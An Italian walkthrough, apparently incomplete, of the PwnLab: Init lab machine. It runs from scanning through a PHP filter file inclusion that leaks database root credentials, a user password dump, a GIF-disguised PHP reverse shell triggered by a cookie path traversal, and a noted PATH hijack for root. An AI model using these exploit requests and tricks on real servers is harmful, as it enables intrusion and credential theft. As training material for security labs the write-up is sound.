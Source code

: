 PWN_LAB INIT

# NETDISCOVER 👨‍💻
Prima di tutto eseguiamo un netdiscover per scoprire l'indirizzo ip della macchina 
```
netdiscover 10.211.55.0/24
Currently scanning: Finished! | Screen View: Unique Hosts
3 Captured ARP Req/Rep packets, from 2 hosts. Total size: 126
_____________________________________________________________________________ 
IP At MAC Address Count Len MAC Vendor / Hostname
----------------------------------------------------------------------------- 
10.211.55.1 00:1c:42:00:00:18 1 42 Parallels, Inc. 
10.211.55.17 00:1c:42:4d:69:40 2 84 Parallels, Inc.
```

Il primo indirizzo é il nostro (macchina kali), la macchina da attaccare é il secondo ip della lista.

# NMAP 🔍
```
nmap -sV -sC 10.211.55.17
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-16 15:02 CEST Nmap scan report for pwnlab-vulnhub.shared (10.211.55.17)
Host is up (0.00012s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.10 ((Debian)) |_http-server-header: Apache/2.4.10 (Debian)
|_http-title: PwnLab Intranet Image Hosting
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
...
3306/tcp open mysql MySQL 5.5.47-0+deb8u1
| mysql-info:
| Protocol: 10
| Version: 5.5.47-0+deb8u1
| Thread ID: 39
| Capabilities flags: 63487
| Some Capabilities: SupportsLoadDataLocal, Support41Auth, IgnoreSigpipes, SupportsTransactions, Speaks41ProtocolOld, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, ConnectWithDatabase, InteractiveClient, FoundRows, Speaks41ProtocolNew, ODBCClient, SupportsCompression, LongPassword, LongColumnFlag, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
| Status: Autocommit
| Salt: =sK^vV+r|=Vxyvdt;gv<
|_ Auth Plugin Name: mysql_native_password
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 6.71 seconds
```
Visto che abbiamo trovato la porta 80 aperta, apriamo un browser e vediamo cosa troviamo.  
Troviamo una pagina di login e una di "upload" dove poter caricare dei dati, ma solo se loggati.

# LOGIN PAGE 🛠

<!-- qui manca il perché di questa cosa! -->
```
curl -s http://10.211.55.17/?page=php://filter/convert.base64-encode/resource=config
```
Analizziamo il comando: stiamo eseguendo una filter del codice php e lo stiamo codificando in modo tale che il broswer non interpreti il php, cosí da farci restituire il codice php come stringa codificata. In seguito decodifichiamo quello che é stato codificato in base64.
```
<html>
<head>
<title>PwnLab Intranet Image Hosting</title>
</head>
<body>
<center>
<img src="images/pwnlab.png"><br />
[ <a href="/">Home</a> ] [ <a href="?page=login">Login</a> ] [ <a href="?page=upload">Upload</a> ] <hr/><br/> PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRS center>
</body>
</html>
```
Decodifichiamo
```
echo "PD9waHANCiRzZXJ2ZXIJICA9I...lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVR" | base64 -d
```
Otteniamo il codice php in chiaro.
```
<?php
$server = "localhost"; 
$username = "root"; 
$password = "H4u%QJ_H99"; 
$database = "Users";
?>
```
Proviamo ad entrare su mysql con queste credenziali
```
mysql -h 10.211.55.17 -u root -p
Enter password:
Welcome to the MariaDB monitor. Commands end with ; or \g. Your MySQL connection id is 114764
Server version: 5.5.47-0+deb8u1 (Debian)
...
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Users              |
+--------------------+
2 rows in set (0.002 sec)
...
MySQL [(none)]> use Users;
...
MySQL [Users]> show tables;
+-----------------+
| Tables_in_Users |
+-----------------+
| users           |
+-----------------+
MySQL [Users]> Select * from users; 
+------+------------------+
| user | pass             | 
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== | 
| kane | aVN2NVltMkdSbw== | 
+------+------------------+
```
Anche le password sono codificate in base64.  
Proviamo a loggarci con  
* user: kent  
* password: Sld6WHVCSkpOeQ== (decodificata ->) JWzXuBJJNy  

Perfetto, ci siamo loggati ma notiamo che possiamo caricare solo immagini, quindi dobbiamo trovare il modo di caricare la nostra reverse shell come una immagine.
# REVERSE SHELL 🔁
Per caricare la reverse shell, prendiamo il file in php (/usr/share/webshells/php-reverse-shell.php), modifichiamolo con i nostri parametri e aggiungiamo in testa l'header dei file GIF: ```GIF89``` e cambiamo l'estensione in ```.php.gif```  
Carichiamo la nostra reverse shell modificata e facciamo partire netcat sulla nostra macchina.  
Sfruttando il browser nella cartella /uploads troviamo il nostro file.  
Per far esegure la shell caricata sul web server sfruttiamo burpsuite (ma anche curl va bene) eseguendo la seguente GET. (occhio al nome del file che abbiamo caricato nel cookie!)
<!-- anche qui manca il perché di questa cosa!-->
```
GET / HTTP/1.1
Host: 10.211.55.17
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.92 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/ signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: lang=../upload/3eaa8ef68810b5720fdb48484d9b24ff.gif
If-None-Match: W/"17c7-5a5e2980343c0"
If-Modified-Since: Mon, 18 May 2020 02:05:15 GMT
Connection: close
```
# PRIVILEDGE ESCALATION 💵

<!-- si doveva modificare il comportamento di cat e poi chiamare un eseguibile che potevamo chiamare senza sudo: echo “/bin/sh/” > cat PATH=.:$PATH -->

# ROOT FLAG 🏴‍☠️
